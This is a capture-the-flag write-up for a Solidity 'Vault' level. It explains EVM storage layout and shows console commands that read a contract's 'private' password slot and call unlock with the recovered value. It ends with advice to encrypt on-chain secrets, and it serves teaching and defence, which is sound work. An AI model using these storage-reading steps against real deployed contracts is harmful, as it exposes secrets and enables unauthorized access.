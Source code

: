# 08 - Vault

## Challenge

Unlock the vault to pass the level!

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

## Summary

Upon construction, `locked` is set to true, and a random `bytes32 password` is generated. The `unlock` function can be called to set `locked` to false if the `password` is correct (which is impossible without knowning the actual password, since we cannot brute force the password easily).

The vulnerability is that the `password` is not actually `private` as it claims to be. I have read a nice [article](https://quillaudits.medium.com/accessing-private-data-in-smart-contracts-quillaudits-fe847581ce6d#:~:text=In%20solidity%2C%20%E2%80%9CPrivate%E2%80%9D%20variables,data%20from%20outside%20the%20blockchain.) about accessing private data in smart contracts. I will do a quick summary here for learning purposes.

1. State Variable Visibility

- `public`: the variable can be accessed by any contract or external account.
- `private`: the variable can only be accessed by the contract that defines it.
- `internal`: the variable can only be accessed by the contract that defines it, and by contracts that inherit from it.

2. Storage layout in EVM

The EVM stores smart contract state variables in the order that they were declared in slots on the blockchain. The default value of each slot is always 0. Each memory slot can hold up to 32 bytes of data.

Similar to how C++ struct handles memory, the EVM will try to pack variables into the same slot if possible. If two or more variables fit into a single 32-byte slot, they are packed into the same slot, beginning on the right.

![Example from the article](https://miro.medium.com/v2/resize:fit:828/0*o1wWiHD0wupwrttD)

Now, you can access a private variable by 

- Get the slot you want to access, e.g. slot 1
- Use any library (e.g. `ethers.js`) to read the memory slots of the contract on the blockchain. e.g. `await ethers.provider.getStorageAt(contract_address, 1);`
- Decode the returned hex encoded value to get the value of the private variable.

## Walkthrough

In Devtool,

```js
> await web3.eth.getStorageAt(await contract.address, 0)
'0x0000000000000000000000000000000000000000000000000000000000000001' # locked = true
> await web3.eth.getStorageAt(await contract.address, 1)
'0x412076657279207374726f6e67207365637265742070617373776f7264203a29' # password
```

[Decode](https://gchq.github.io/CyberChef/#recipe=From_Hex('None')&input=NDEyMDc2NjU3Mjc5MjA3Mzc0NzI2ZjZlNjcyMDczNjU2MzcyNjU3NDIwNzA2MTczNzM3NzZmNzI2NDIwM2EyOQ) the hex gives password `A very strong secret password :)`. Now we just call `unlock` with this password. Note that `bytes32` can be passed as hex, so you don't really need to actually see the plaintext password :)

```js
> await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29');
{tx: '0x42808f7a2b97bae94fb60ab7d711fb466ec3ab7023a67a3297f71a1aa843c8cb', receipt: {…}, logs: Array(0)}
```

Finally, submit the instance to pass the level.

## Afterword

It's important to remember that marking a variable as private only prevents other contracts from accessing it. State variables marked as private and local variables are still publicly accessible.

To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it.